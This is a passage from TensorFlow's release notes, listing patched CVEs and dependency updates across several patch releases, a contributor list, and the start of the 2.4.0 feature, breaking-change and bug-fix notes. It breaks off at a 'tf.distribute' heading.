    *   Fixes vulnerabilities caused by incomplete validation in
        `SparseSparseMinimum`
        ([CVE-2021-29607](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29607))
    *   Fixes vulnerabilities caused by incomplete validation in `SparseReshape`
        ([CVE-2021-29611](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29611))
    *   Fixes vulnerabilities caused by invalid validation in
        `QuantizeAndDequantizeV2`
        ([CVE-2021-29610](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29610))
    *   Fixes a heap buffer overflow in `BandedTriangularSolve`
        ([CVE-2021-29612](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29612))
    *   Fixes vulnerabilities caused by incomplete validation in
        `tf.raw_ops.CTCLoss`
        ([CVE-2021-29613](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29613))
    *   Fixes an interpreter crash from vulnerabilities in `tf.io.decode_raw`
        ([CVE-2021-29614](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29614))
    *   Fixes a stack overflow in `ParseAttrValue` with nested tensors
        ([CVE-2021-29615](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29615))
    *   Fixes a null dereference in Grappler's `TrySimplify`
        ([CVE-2021-29616](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29616))
    *   Fixes a crash in `tf.transpose` with complex inputs
        ([CVE-2021-29618](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29618))
    *   Fixes a crash in `tf.strings.substr` due to `CHECK`-fail
        ([CVE-2021-29617](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29617))
    *   Fixes a segfault in `tf.raw_ops.SparseCountSparseOutput`
        ([CVE-2021-29619](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29619))
    *   Fixes a segfault in `tf.raw_ops.ImmutableConst`
        ([CVE-2021-29539](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29539))
    *   Updates `curl` to `7.76.0` to handle
        [CVE-2020-8169](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8169),
        [CVE-2020-8177](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8177),
        [CVE-2020-8231](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8231),
        [CVE-2020-8284](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8284),
        [CVE-2020-8285](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8285)
        and
        [CVE-2020-8286](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8286).

*   Other

    *   Added `show_debug_info` to `mlir.convert_graph_def` and
        `mlir.convert_function`.
    *   Added
        [Arm Compute Library (ACL)](https://github.com/ARM-software/ComputeLibrary)
        support to `--config=mkl_aarch64` build.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

8bitmp3, Aaron S. Mondal, Abhilash Mahendrakar, Abhinav Upadhyay, Abhishek
Kulkarni, Abolfazl Shahbazi, Adam Hillier, Aditya Kane, Ag Ramesh, ahmedsabie,
Albert Villanova Del Moral, Aleksey Vitebskiy, Alex Hoffman, Alexander Bayandin,
Alfie Edwards, Aman Kishore, Amogh Joshi, andreABbauer, Andrew Goodbody, Andrzej
Pomirski, Artemiy Ryabinkov, Ashish Jha, ather, Ayan Moitra, Bairen Yi, Bart
Ribbers, Bas Aarts, Behzad Abghari, Ben Arnao, Ben Barsdell, Benjamin Klimczak,
bhack, Brendan Collins, Can Wang, Cheng Ren, Chris Leary, Chris Olivier, Clemens
Giuliani, Cloud Han, Corey Cole, Cui, Yifeng, Cuong V. Nguyen, Daniel Moore,
Dawid Wojciechowski, Ddavis-2015, Dean Wyatte, Denisa Roberts, dependabot[bot],
Dmitry Volodin, Dominic Jack, Duncan Riach, dushuai, Elena Zhelezina, Eli
Osherovich, Erik Smistad, ewsn1593, Felix Fent, fo40225, François Chollet,
Frederic Bastien, Freedom" Koan-Sin Tan, fsx950223, ganand1, gbaned, Georgiy
Manuilov, gerbauz, Guillaume Klein, Guozhong Zhuang, Harry Slatyer, Harsh188,
henri, Henri Woodcock, Hiran Sarkar, Hollow Man, Håkon Sandsmark, I Wayan
Dharmana, icysapphire, Ikko Ashimine, Jab Hofmeier, Jack Hessel, Jacob Valdez,
Jakub Jatczak, James Bernardi, Jared Smolens, Jason Zaman, jedlimlx, Jenny
Plunkett, Jens Elofsson, Jerry Shih, jgehw, Jia Fu Low, Jim Fisher, jpodivin,
Julien Stephan, Jungsub Lim, Junha Park, Junhyuk So, justkw, Kaixi Hou,
kashyapraval, Kasra Bigdeli, Kazuaki Ishizaki, Keith Mok, Kevin Cheng, kopytjuk,
Kristian Hartikainen, ksood12345, Kulin Seth, kushanam, latyas, Lequn Chen,
Leslie-Fang, Long M. Lưu, Lukas Geiger, machineko, Mahmoud Abuzaina, Manish, Mao
Yunfei, Maozhou, Ge, Marcin Juszkiewicz, Marcin Owsiany, Marconi Jiang, Marcos
Pereira, Maria Romanenko Vexlard, Maria Vexlard, Marius Brehler, marload, Martin
Kubovčík, Matej, Mateusz Holenko, Maxiwell S. Garcia, Mazhar, mazharul,
mbhuiyan, mdfaijul, Michael Gielda, Michael Kuchnik, Michal Szutenberg, Mikhail
Stepanov, Milan Straka, Mitchel Humpherys, Mohamed Moselhy, Mohamed Nour
Abouelseoud, Måns Bermell, Måns Nilsson, Nathan Luehr, Nico Jahn, Niroop
Ammbashankar, Oceania2018, Omri Steiner, Orivej Desh, Oskar Flordal, oujiafan,
Patrik Laurell, Paul B. Isaac'S, Paul Klinger, Pawel Piskorski, Pedro Marques,
Phat Tran, Piotr Zierhoffer, piyushdatta, Pnikam-Cad, Prashant Kumar, Prateek
Gupta, PratsBhatt, Pravin Karandikar, qqq.jq, QQ喵, Quintin, Rama Ketineni,
ravikyram, Rehan Guha, rhdong, rmothukuru, Roger Cheng, Rohit Santhanam, rposts,
Rsanthanam-Amd, rsun, Rsun-Bdti, Ryan Kuester, ryanking13, Saduf2019, Sami Kama,
Samuel Marks, Scott Tseng, Sean Moriarity, Sergey Popov, Sergii Khomenko, Sheng,
Yang, shwetaoj, Sidong-Wei, Simon Maurer, Simrit Kaur, Srini511, Srinivasan
Narayanamoorthy, Stephan, Stephen Matthews, Sungmann Cho, Sunoru, Suraj Sudhir,
Suraj Upadhyay, Taebum Kim, Takayoshi Koizumi, Tamas Bela Feher, Teng Lu,
Thibaut Goetghebuer-Planchon, Tomwildenhain-Microsoft, Tony, Traun Leyden, Trent
Lo, TVLIgnacy, Tzu-Wei Sung, vaibhav, Vignesh Kothapalli, Vikram Dattu,
viktprog, Vinayaka Bandishti, Vincent Abriou, Vishakha Agrawal, Vivek Panyam,
Vladimir Silyaev, Võ Văn Nghĩa, wamuir, Wang, Yanzhang, wangsiyu, Waqar Hameed,
wxinix, Xiao Yang, xiaohong1031, Xiaoming (Jason) Cui, Xinan Jiang, Yair
Ehrenwald, Yajush Vyas, Yasir Modak, Yimei Sun, Yong Tang, Yosshi999,
youshenmebutuo, yqtianust, Yuan Tang, yuanbopeng, Yuriy Chernyshov, Yuta
Fukasawa, Zachary Deane-Mayer, Zeno Gantner, Zhoulong Jiang, zhuyie, zilinzhu,
彭震东

# Release 2.4.1

* This release removes the AVX2 requirement from TF 2.4.0.

# Release 2.3.2

## Bug Fixes and Other Changes
* Fixes an access to unitialized memory in Eigen code
  ([CVE-2020-26266](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26266))
* Fixes a security vulnerability caused by lack of validation in
  `tf.raw_ops.DataFormatVecPermute` and `tf.raw_ops.DataFormatDimMap`
  ([CVE-2020-26267](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26267))
* Fixes a vulnerability caused by attempting to write to immutable memory region in
  `tf.raw_ops.ImmutableConst`
  ([CVE-2020-26268](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26268)
* Fixes a `CHECK`-fail in LSTM with zero-length input
  ([CVE-2020-26270](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26270))
* Fixes a security vulnerability caused by accessing heap data outside of bounds
  when loading a specially crafted `SavedModel`
  ([CVE-2020-26271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26271))
* Solves an OOM issue on TPUs when XLA contexts use fused average updates
* Updates `libjpeg-turbo` to `2.0.5` to handle
  [CVE-2020-13790](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13790).
* Updates `junit` to `4.13.1` to handle
  [CVE-2020-15250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15250).
* Updates `PCRE` to `8.44` to handle
  [CVE-2019-20838](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20838)
  and
  [CVE-2020-14155](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-14155).
* Updates `sqlite3` to `3.44.0` to keep in sync with master branch.

# Release 2.2.2

## Bug Fixes and Other Changes
* Fixes an access to unitialized memory in Eigen code
  ([CVE-2020-26266](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26266))
* Fixes a security vulnerability caused by lack of validation in
  `tf.raw_ops.DataFormatVecPermute` and `tf.raw_ops.DataFormatDimMap`
  ([CVE-2020-26267](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26267))
* Fixes a vulnerability caused by attempting to write to immutable memory region in
  `tf.raw_ops.ImmutableConst`
  ([CVE-2020-26268](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26268)
* Fixes a `CHECK`-fail in LSTM with zero-length input
  ([CVE-2020-26270](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26270))
* Fixes a security vulnerability caused by accessing heap data outside of bounds
  when loading a specially crafted `SavedModel`
  ([CVE-2020-26271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26271))
* Prevents memory leaks in loading `SavedModel`s that import functions
* Updates `libjpeg-turbo` to `2.0.5` to handle
  [CVE-2020-13790](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13790).
* Updates `junit` to `4.13.1` to handle
  [CVE-2020-15250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15250).
* Updates `PCRE` to `8.44` to handle
  [CVE-2019-20838](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20838)
  and
  [CVE-2020-14155](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-14155).
* Updates `sqlite3` to `3.44.0` to keep in sync with master branch.

# Release 2.1.3

## Bug Fixes and Other Changes
* Fixes an access to unitialized memory in Eigen code
  ([CVE-2020-26266](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26266))
* Fixes a security vulnerability caused by lack of validation in
  `tf.raw_ops.DataFormatVecPermute` and `tf.raw_ops.DataFormatDimMap`
  ([CVE-2020-26267](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26267))
* Fixes a vulnerability caused by attempting to write to immutable memory region in
  `tf.raw_ops.ImmutableConst`
  ([CVE-2020-26268](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26268)
* Fixes a `CHECK`-fail in LSTM with zero-length input
  ([CVE-2020-26270](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26270))
* Fixes a security vulnerability caused by accessing heap data outside of bounds
  when loading a specially crafted `SavedModel`
  ([CVE-2020-26271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26271))
* Updates `libjpeg-turbo` to `2.0.5` to handle
  [CVE-2020-13790](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13790).
* Updates `junit` to `4.13.1` to handle
  [CVE-2020-15250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15250).
* Updates `PCRE` to `8.44` to handle
  [CVE-2019-20838](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20838)
  and
  [CVE-2020-14155](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-14155).
* Updates `sqlite3` to `3.44.0` to keep in sync with master branch.
* Newer ROCm versions are supported on the 2.1 branch.

# Release 2.0.4

Note that this is the last patch release for the TensorFlow 2.0.x series.

## Bug Fixes and Other Changes
* Fixes an access to unitialized memory in Eigen code
  ([CVE-2020-26266](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26266))
* Fixes a security vulnerability caused by lack of validation in
  `tf.raw_ops.DataFormatVecPermute` and `tf.raw_ops.DataFormatDimMap`
  ([CVE-2020-26267](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26267))
* Fixes a vulnerability caused by attempting to write to immutable memory region in
  `tf.raw_ops.ImmutableConst`
  ([CVE-2020-26268](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26268)
* Fixes a `CHECK`-fail in LSTM with zero-length input
  ([CVE-2020-26270](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26270))
* Fixes a security vulnerability caused by accessing heap data outside of bounds
  when loading a specially crafted `SavedModel`
  ([CVE-2020-26271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26271))
* Updates `libjpeg-turbo` to `2.0.5` to handle
  [CVE-2020-13790](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13790).
* Updates `junit` to `4.13.1` to handle
  [CVE-2020-15250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15250).
* Updates `PCRE` to `8.44` to handle
  [CVE-2019-20838](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20838)
  and
  [CVE-2020-14155](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-14155).
* Updates `sqlite3` to `3.44.0` to keep in sync with master branch.

# Release 1.15.5

Note that this is the last patch release for the TensorFlow 1.x series.

## Bug Fixes and Other Changes
* Fixes an access to unitialized memory in Eigen code
  ([CVE-2020-26266](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26266))
* Fixes a security vulnerability caused by lack of validation in
  `tf.raw_ops.DataFormatVecPermute` and `tf.raw_ops.DataFormatDimMap`
  ([CVE-2020-26267](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26267))
* Fixes a vulnerability caused by attempting to write to immutable memory region in
  `tf.raw_ops.ImmutableConst`
  ([CVE-2020-26268](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26268)
* Fixes a `CHECK`-fail in LSTM with zero-length input
  ([CVE-2020-26270](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26270))
* Fixes a security vulnerability caused by accessing heap data outside of bounds
  when loading a specially crafted `SavedModel`
  ([CVE-2020-26271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26271))
* Updates `libjpeg-turbo` to `2.0.5` to handle
  [CVE-2020-13790](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13790).
* Updates `junit` to `4.13.1` to handle
  [CVE-2020-15250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-15250).
* Updates `PCRE` to `8.44` to handle
  [CVE-2019-20838](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20838)
  and
  [CVE-2020-14155](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-14155).
* Updates `sqlite3` to `3.44.0` to keep in sync with master branch.

# Release 2.4.0

 ## Major Features and Improvements

* `tf.distribute` introduces experimental support for asynchronous training of
  models via the [`tf.distribute.experimental.ParameterServerStrategy`]
  (https://www.tensorflow.org/api_docs/python/tf/distribute/experimental/ParameterServerStrategy)
  API. Please see the [tutorial](https://www.tensorflow.org/tutorials/distribute/parameter_server_training)
  to learn more.

* [`MultiWorkerMirroredStrategy`](https://www.tensorflow.org/api_docs/python/tf/distribute/MultiWorkerMirroredStrategy)
  is now a stable API and is no longer considered experimental. Some of the
  major improvements involve handling peer failure and many bug fixes. Please
  check out the detailed tutorial on [Multi-worker training with Keras]
  (https://www.tensorflow.org/tutorials/distribute/multi_worker_with_keras).

* Introduces experimental support for a new module named [`tf.experimental.numpy`]
  (https://www.tensorflow.org/api_docs/python/tf/experimental/numpy) which is a
  NumPy-compatible API for writing TF programs. See the [detailed guide]
  (https://www.tensorflow.org/guide/tf_numpy) to learn more. Additional details below.

* Adds Support for
  [TensorFloat-32](https://blogs.nvidia.com/blog/2020/05/14/tensorfloat-32-precision-format/)
  on Ampere based GPUs. TensorFloat-32, or TF32 for short, is a math mode for
  NVIDIA Ampere based GPUs and is enabled by default.

* A major refactoring of the internals of the Keras Functional API has been
  completed, that should improve the reliability, stability, and performance of
  constructing Functional models.

* Keras mixed precision API [`tf.keras.mixed_precision`]
  (https://www.tensorflow.org/api_docs/python/tf/keras/mixed_precision?version=nightly)
  is no longer experimental and allows the use of 16-bit floating point formats
  during training, improving performance by up to 3x on GPUs and 60% on TPUs.
  Please see below for additional details.

* TensorFlow Profiler now supports profiling `MultiWorkerMirroredStrategy` and
  tracing multiple workers using the [sampling mode API]
  (https://www.tensorflow.org/guide/profiler#profiling_apis).

* TFLite Profiler for Android is available. See the detailed [guide]
  (https://www.tensorflow.org/lite/performance/measurement#trace_tensorflow_lite_internals_in_android)
  to learn more.

* TensorFlow pip packages are now built with CUDA11 and cuDNN 8.0.2.

## Breaking Changes

* TF Core:
  * Certain float32 ops run in lower precision on Ampere based GPUs, including
  matmuls and convolutions, due to the use of [TensorFloat-32]
  (https://blogs.nvidia.com/blog/2020/05/14/tensorfloat-32-precision-format/).
  Specifically, inputs to such ops are rounded from 23 bits of precision to 10
  bits of precision. This is unlikely to cause issues in practice for deep learning
  models. In some cases, TensorFloat-32 is also used for complex64 ops.
  TensorFloat-32 can be disabled by running `tf.config.experimental.enable_tensor_float_32_execution(False)`.
  * The byte layout for string tensors across the C-API has been updated to match
  TF Core/C++; i.e., a contiguous array of `tensorflow::tstring`/`TF_TString`s.
  * C-API functions `TF_StringDecode`, `TF_StringEncode`, and `TF_StringEncodedSize`
  are no longer relevant and have been removed; see `core/platform/ctstring.h` for
  string access/modification in C.
  * `tensorflow.python`, `tensorflow.core` and `tensorflow.compiler` modules are
  now hidden. These modules are not part of TensorFlow public API.
  * `tf.raw_ops.Max` and `tf.raw_ops.Min` no longer accept inputs of type
  `tf.complex64` or `tf.complex128`, because the behavior of these ops is not
  well defined for complex types.
  * XLA:CPU and XLA:GPU devices are no longer registered by default. Use
  `TF_XLA_FLAGS=--tf_xla_enable_xla_devices` if you really need them, but this
  flag will eventually be removed in subsequent releases.

* `tf.keras`:
  * The `steps_per_execution` argument in `model.compile()` is no longer experimental;
  if you were passing `experimental_steps_per_execution`, rename it to
  `steps_per_execution` in your code. This argument controls the number of batches
  to run during each `tf.function` call when calling `model.fit()`. Running multiple
  batches inside a single `tf.function` call can greatly improve performance on
  TPUs or small models with a large Python overhead.
  * A **major refactoring** of the internals of the Keras Functional API may affect code that
  is relying on certain internal details:
    * Code that uses `isinstance(x, tf.Tensor)` instead of `tf.is_tensor` when
  checking Keras symbolic inputs/outputs should switch to using `tf.is_tensor`.
    * Code that is overly dependent on the exact names attached to symbolic tensors
  (e.g. assumes there will be ":0" at the end of the inputs, treats names as
  unique identifiers instead of using `tensor.ref()`, etc.) may break.
    * Code that uses full path for `get_concrete_function` to trace Keras symbolic
  inputs directly should switch to building matching `tf.TensorSpec`s directly and
  tracing the `TensorSpec` objects.
    * Code that relies on the exact number and names of the op layers that TensorFlow
  operations  were converted into may have changed.
    * Code that uses `tf.map_fn`/`tf.cond`/`tf.while_loop`/control flow as op layers
  and  happens to work before TF 2.4. These will explicitly be unsupported now.
  Converting these ops to Functional API op layers was unreliable before TF 2.4,
  and prone to erroring incomprehensibly  or being silently buggy.
    * Code that directly asserts on a Keras symbolic value in cases where ops
  like `tf.rank` used to  return a static or symbolic value depending on if the
  input had a fully static shape or not. Now these ops always return symbolic values.
    * Code already susceptible to leaking tensors outside of graphs becomes slightly
  more likely to do so now.
    * Code that tries directly getting gradients with respect to symbolic Keras
  inputs/outputs. Use `GradientTape` on the actual Tensors passed to the already-constructed
  model instead.
    * Code that requires very tricky shape manipulation via converted op layers
  in order to work, where the Keras symbolic shape inference proves insufficient.
    * Code that tries manually walking a `tf.keras.Model` layer by layer and assumes
  layers only ever have one positional argument. This assumption doesn't hold
  true before TF 2.4 either, but is more likely to cause issues now.
    * Code that manually enters `keras.backend.get_graph()` before building a
  functional model is no longer needed.
    * Start enforcing input shape assumptions when calling Functional API Keras
  models. This may potentially break some users, in case there is a mismatch
  between the shape used when creating `Input` objects in a Functional model,
  and the shape of the data passed to that model. You can fix this mismatch by
  either calling the model with correctly-shaped data, or by relaxing `Input` shape
  assumptions (note that you can pass shapes with `None` entries for axes that
  are meant to be dynamic). You can also disable the input checking entirely by
  setting `model.input_spec = None`.
  * Several changes have been made to `tf.keras.mixed_precision.experimental`.
  Note that it is now recommended to use the non-experimental
  `tf.keras.mixed_precision` API.
   * `AutoCastVariable.dtype` now refers to the actual variable dtype, not the
  dtype it will be casted to.
   * When mixed precision is enabled, `tf.keras.layers.Embedding` now outputs a
  float16 or bfloat16 tensor instead of a float32 tensor.
   * The property `tf.keras.mixed_precision.experimental.LossScaleOptimizer.loss_scale`
  is now a tensor, not a `LossScale` object. This means to get a loss scale
  of a `LossScaleOptimizer` as a tensor, you must now call `opt.loss_scale`instead of `opt.loss_scale()`.
   * The property `should_cast_variables` has been removed from `tf.keras.mixed_precision.experimental.Policy`
   * When passing a `tf.mixed_precision.experimental.DynamicLossScale` to `tf.keras.mixed_precision.experimental.LossScaleOptimizer`,
  the `DynamicLossScale`'s multiplier must be 2.
   * When passing a `tf.mixed_precision.experimental.DynamicLossScale` to
  `tf.keras.mixed_precision.experimental.LossScaleOptimizer`, the weights of
  the `DynanmicLossScale` are copied into the `LossScaleOptimizer` instead of being reused.
  This means modifying the weights of the `DynamicLossScale` will no longer affect the weights of the LossScaleOptimizer, and vice versa.
   * The global policy can no longer be set to a non-floating point policy in `tf.keras.mixed_precision.experimental.set_policy`
   * In `Layer.call`, `AutoCastVariable`s will no longer be casted within
  `MirroredStrategy.run` or `ReplicaContext.merge_call`. This is because a thread local
  variable is used to determine whether `AutoCastVariable`s are casted, and those
  two functions run with a different thread. Note this only applies if one of
  these two functions is called within `Layer.call`; if one of those two functions calls `Layer.call`, `AutoCastVariable`s will still be casted.

* `tf.data`:
  * `tf.data.experimental.service.DispatchServer` now takes a config tuple
  instead of individual arguments. Usages should be updated to
  `tf.data.experimental.service.DispatchServer(dispatcher_config)`.
  * `tf.data.experimental.service.WorkerServer` now takes a config tuple instead
  of individual arguments. Usages should be updated to  `tf.data.experimental.service.WorkerServer(worker_config)`.

* `tf.distribute`:
  * Removes `tf.distribute.Strategy.experimental_make_numpy_dataset`. Please use
  `tf.data.Dataset.from_tensor_slices` instead.
  * Renames `experimental_hints` in `tf.distribute.StrategyExtended.reduce_to`,
  `tf.distribute.StrategyExtended.batch_reduce_to`, `tf.distribute.ReplicaContext.all_reduce`
  to `options`.
  * Renames `tf.distribute.experimental.CollectiveHints` to `tf.distribute.experimental.CommunicationOptions`.
  * Renames `tf.distribute.experimental.CollectiveCommunication` to `tf.distribute.experimental.CommunicationImplementation`.
  * Renames `tf.distribute.Strategy.experimental_distribute_datasets_from_function` to `distribute_datasets_from_function` as it is no longer experimental.
  * Removes `tf.distribute.Strategy.experimental_run_v2` method, which was deprecated in TF 2.2.

* `tf.lite`:
  * `tf.quantization.quantize_and_dequantize_v2` has been introduced, which updates the gradient definition for quantization which is outside the range
     to be 0. To simulate the V1 the behavior of `tf.quantization.quantize_and_dequantize(...)` use
  `tf.grad_pass_through(tf.quantization.quantize_and_dequantize_v2)(...)`.

* Building TensorFlow:
  * Windows platform builds: TensorFlow on Windows under MSVC is now built with
  `--copt=/experimental:preprocessor --host_copt=/experimental:preprocessor`
  (see `.bazelrc` for more details). Builds including TensorFlow may fail with
  unexpected syntax errors if these flags are absent. See also
  [this thread on SIG Build](https://groups.google.com/a/tensorflow.org/g/build/c/LbAw8RILvTg/m/ttnuhYU2BgAJ).

## Known Caveats
  * `tf.keras.mixed_precision`
    * When using mixed precision, calling `RMSprop.apply_gradients` or
  `Nadam.apply_gradients` outside a `tf.function` does not work and will raise
  the AttributeError "Tensor.op is meaningless when eager execution is enabled".
  See this [issue](https://github.com/tensorflow/tensorflow/issues/45536) for details and a workaround.

## Bug Fixes and Other Changes

### TF Core:
  * Introduces experimental support for a new module named [`tf.experimental.numpy`]
  (https://www.tensorflow.org/api_docs/python/tf/experimental/numpy), which is a
  NumPy-compatible API for writing TF programs. This module provides class
  `ndarray`, which mimics the `ndarray` class in NumPy, and wraps an immutable
  `tf.Tensor` under the hood. A subset of NumPy functions (e.g. `numpy.add`) are
  provided. Their inter-operation with TF facilities is seamless in most cases.
    See [tensorflow/python/ops/numpy_ops/README.md](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/ops/numpy_ops/README.md)
    for details of what operations are supported and what are the differences
  from NumPy.
  * `tf.types.experimental.TensorLike` is a new `Union` type that can be used as
  type annotation for variables representing a Tensor or a value
    that can be converted to Tensor by `tf.convert_to_tensor`.
  * Calling ops with a python constants or numpy values is now consistent with
  tf.convert_to_tensor behavior. This avoids operations like
    tf.reshape truncating inputs such as from int64 to int32.
  * Adds `tf.sparse.map_values` to apply a function to the `.value`s of
  `SparseTensor` arguments.
  * The Python bitwise operators for `Tensor` (`__and__`, `__or__`, `__xor__` and `__invert__` now support non-`bool`
  arguments and apply the corresponding bitwise ops. `bool` arguments continue
  to be supported and dispatch to logical ops. This brings them more in line with
  Python and NumPy behavior.
  * Adds `tf.SparseTensor.with_values`. This returns a new SparseTensor with the same sparsity pattern, but with new provided values. It is
    similar to the `with_values` function of `RaggedTensor`.
  * Adds `StatelessCase` op, and uses it if none of case branches has stateful ops.
  * Adds `tf.config.experimental.get_memory_usage` to return total memory usage of the device.
  * Adds gradients for `RaggedTensorToVariant` and `RaggedTensorFromVariant`.
  * Improve shape inference of nested function calls by supporting constant
  folding across Arg nodes which makes more static values available to shape
  inference functions.
* `tf.debugging`:
  * `tf.debugging.assert_shapes()` now works on `SparseTensor`s (Fixes [#36268](https://github.com/tensorflow/tensorflow/issues/36268)).
* GPU
  * Adds Support for [TensorFloat-32](https://blogs.nvidia.com/blog/2020/05/14/tensorfloat-32-precision-format/)
  on Ampere based GPUs.TensorFloat-32, or TF32 for short, is a math mode for
  NVIDIA Ampere based GPUs which causes certain float32 ops, such as matrix
  multiplications and convolutions, to run much faster on Ampere GPUs but with
  reduced precision. This reduced precision has not been found to effect
  convergence quality of deep learning models in practice. TensorFloat-32 is
  enabled by default, but can be disabled with `tf.config.experimental.enable_tensor_float_32_execution`.
* `tf.math`:
  * Adds `tf.math.erfcinv`, the inverse to `tf.math.erfc`.
* `tf.nn`:
  *   `tf.nn.max_pool2d` now supports explicit padding.
* `tf.image`:
  * Adds deterministic `tf.image.stateless_random_*` functions for each
  `tf.image.random_*` function. Added a new op `stateless_sample_distorted_bounding_box`
  which is a deterministic version of `sample_distorted_bounding_box` op.
  Given the same seed, these stateless functions/ops produce the same results
  independent of how many times the function is called, and independent of global seed settings.
  * Adds deterministic `tf.image.resize` backprop CUDA kernels for
  `method=ResizeMethod.BILINEAR` (the default method). Enable by setting the environment
  variable `TF_DETERMINISTIC_OPS` to `"true"` or `"1"`.
* `tf.print`:
  * Bug fix in `tf.print()` with `OrderedDict` where if an `OrderedDict`
  didn't have the keys sorted, the keys and values were not being printed
    in accordance with their correct mapping.
* `tf.train.Checkpoint`:
  * Now accepts a `root` argument in the initialization, which generates a
  checkpoint with a root object. This allows users to create a `Checkpoint`
  object that     is compatible with Keras `model.save_weights()` and
  `model.load_weights`. The checkpoint is also compatible with the checkpoint
  saved in the `variables/` folder in the SavedModel.
  * When restoring, `save_path` can be a path to a SavedModel. The function will
  automatically find the checkpoint in the SavedModel.

### `tf.data`:
  * Adds new `tf.data.experimental.service.register_dataset` and
  `tf.data.experimental.service.from_dataset_id` APIs to enable one process to
  register a dataset with the tf.data service, and another process to consume
  data from the dataset.
  * Adds support for dispatcher fault tolerance. To enable fault tolerance,
  configure a `work_dir` when running your dispatcher server and set
  `dispatcher_fault_tolerance=True`. The dispatcher will store its state to
  `work_dir`, so that on restart it can continue from its previous state after restart.
  * Adds support for sharing dataset graphs via shared filesystem instead of
  over RPC. This reduces load on the dispatcher, improving performance
    of distributing datasets. For this to work, the dispatcher's `work_dir`
  must be accessible from workers. If the worker fails to read from the `work_dir`,
  it falls back to using RPC for dataset graph transfer.
  * Adds support for a new "distributed_epoch" processing mode.
  This processing mode distributes a dataset across all tf.data workers,
    instead of having each worker process the full dataset. See
  [the tf.data service docs](https://www.tensorflow.org/api_docs/python/tf/data/experimental/service#understand_processing_mode)
  to learn more.
  * Adds optional `exclude_cols` parameter to CsvDataset. This parameter is the
  complement of `select_cols`; at most one of these should be specified.
  * We have implemented an optimization which reorders data-discarding
  transformations such as `take` and `shard` to happen earlier in the dataset
  when it is safe to do so. The optimization can be disabled via the
  `experimental_optimization.reorder_data_discarding_ops` dataset option.
  * `tf.data.Options` were previously immutable and can now be overridden.
  * `tf.data.Dataset.from_generator` now supports Ragged and Sparse tensors with
  a new `output_signature` argument, which allows `from_generator` to produce any
  type describable by a `tf.TypeSpec`.
  * `tf.data.experimental.AUTOTUNE` is now available in the core API as `tf.data.AUTOTUNE`.

### `tf.distribute`:
